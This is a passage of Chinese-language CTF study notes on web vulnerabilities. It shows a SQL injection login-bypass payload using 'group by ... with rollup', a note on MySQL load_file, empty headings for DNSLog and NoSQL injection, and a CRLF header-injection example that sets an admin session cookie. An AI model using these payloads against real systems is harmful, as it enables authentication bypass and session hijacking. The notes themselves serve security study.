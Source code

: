 ```php
							echo "登陆成功<br>";
							echo $flag;
						}

					 }
			}
    ?>
```

```
payload:username=admin'/**/or/**/1=1/**/group/**/by/**/password/**/with/**/rollup#&password=
因为加入with rollup后 password有一行为NULL，我们只要输入空密码使得（NULL==NULL）即可满足$password==$row['password']的限制成功登陆。
```

## Mysql函数

| 函数名称  | 作用                           |
| --------- | ------------------------------ |
| load_file | 查看文件内容，见ctf.show_web14 |
|           |                                |
|           |                                |



## DNSLog注入

## nosql注入

### mangodb

## CRLF注入

CRLF 注⼊是⼀类漏洞，在⽤户设法向应⽤插⼊ CRLF 时出现。在多种互联⽹协议中，包括 HTML， CRLF 字符表示了⾏的末尾，**通常表示为\r\n，编码后是%0D%0A**。在和 HTTP 请求或响应头组合时，这可以⽤于表示⼀⾏的结束，并且可能导致不同的漏洞，包括 HTTP 请求⾛私和 HTTP 响应分割。

```
http://victim/foo?url=http://example.com
GET /foo HTTP/1.1
Content-Type: text/html
Connection: close
Location: http://example.com


http://victim/foo?url=http://example.com%0aSetcookie:PHPSESSION%3dadmin
GET /foo HTTP/1.1
Content-Type: text/html
Connection: close
Location: http://example.com
Set-cookie: PHPSESSION=admin
```
